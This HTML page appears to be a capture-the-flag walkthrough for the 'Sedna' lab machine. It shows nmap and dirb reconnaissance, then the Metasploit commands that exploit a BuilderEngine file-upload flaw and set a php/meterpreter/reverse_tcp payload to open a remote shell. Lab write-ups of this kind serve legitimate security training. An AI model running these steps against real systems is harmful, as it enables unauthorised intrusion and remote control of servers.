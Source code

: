 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <center><h1 style="margin-top:100px;font-size:150px;color: red;">Sedna Machine</h1></center>
    <center><h2 style="margin-top: -100px;font-size: 50px;color: brown;">Walkthrough</h2></center>

    <h1 style="font-size: 50px;">Lets Start With Nmap</h1>
    
    <p style="font-size: 40px;margin-left: 60px;">nmap -A  -p-  -T4  -sV  --script  vuln  [ip]</p>
    
    <img style="margin-left: 60px;" src="./nmap_command.png" alt="">
    
    <h1 style="font-size: 50px;">The Open Ports</h1>
    
    <img style="margin-left: 60px;" src="./ports.png" alt="">

    
    <p style="font-size: 40px;margin-left: 60px;">Note : There Is Website </p>
    
    <h1 style="font-size: 50px;">Website</h1> 
    
    <img style="margin-left: 60px;" src="./Welcom_sedna.png" alt="">
    
    <h1 style="font-size: 50px;">Search Directories</h1> 
    
    <p style="font-size: 40px;margin-left: 60px;">dirb    [ip] </p>
    <img style="margin-left: 60px;" src="./dirb.png" alt="">
    <h1 style="font-size: 50px;">Result Of Search Directories</h1> 
    <p style="font-size: 40px;margin-left: 60px;">There Is This File : http://[ip]/modules/builder_market/license.txt</p>
    <img style="margin-left: 60px;" src="./link.png" alt="">
    <br><br><br>
    <p style="font-size: 40px;margin-left: 60px;">We Got A Service</p>
    <img style="margin-left: 60px;" src="./Version.png" alt="">
    <h1 style="font-size: 50px;">Lets Search With Google To Get Exploit</h1> 
    <p style="font-size: 40px;margin-left: 60px;">builderengine exploit</p>
    <img style="margin-left: 60px;" src="./search.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">Link : <a href="https://www.rapid7.com/db/modules/exploit/multi/http/builderengine_upload_exec/">Here</a></p>
    <h1 style="font-size: 50px;">Open Metasploit</h1> 
    <p style="font-size: 40px;margin-left: 60px;">Write : msfconsole      in kali</p>
    <img style="margin-left: 60px;" src="./msf.png" alt="">
    <h1 style="font-size: 50px;">Start Exploit</h1> 
    <p style="font-size: 40px;margin-left: 60px;">use exploit/multi/http/builderengine_upload_exec</p>
    <img style="margin-left: 60px;" src="./Msf_exploit.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">set RHOSTS   [ip]</p>
    <img style="margin-left: 60px;" src="./rhost.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">set PAYLOAD php/meterpreter/reverse_tcp</p>
    <img style="margin-left: 60px;" src="./payload.png" alt="">
    <h1 style="font-size: 50px;">Lets Run</h1> 
    <p style="font-size: 40px;margin-left: 60px;">run</p>
    <img style="margin-left: 60px;" src="./run.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">Meterpreter session opened</p>
    <img style="margin-left: 60px;" src="./session.png" alt="">
    <center><h1 style="margin-top:100px;font-size:90px;color: red;">Have Fun With Sedna</h1> </center>
    
    


</body>
</html>
